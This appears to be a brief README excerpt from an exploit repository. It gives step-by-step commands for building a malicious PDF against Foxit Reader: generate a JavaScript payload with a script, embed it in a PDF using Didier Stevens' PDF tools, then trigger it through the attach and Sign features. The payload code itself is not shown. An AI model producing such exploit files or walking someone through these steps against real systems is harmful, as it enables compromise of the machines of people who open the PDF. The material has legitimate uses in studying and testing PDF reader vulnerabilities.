 We use a small pdf generator from [Didier Stevens](https://blog.didierstevens.com/programs/pdf-tools/)

To generate the exploit:

1. Generate a js payload using generate-js.py
```sh
$ python generate-js.py > test.js
```

2. Use make-pdf-javascript to generate a pdf with that JS embedded
```sh
$ python make-pdf-javascript.py -f test.js test.pdf
```

3. Open the pdf in Foxit and attach bitcoins.pdf and then use "Sign" feature in "Protect" to sign the pdf.
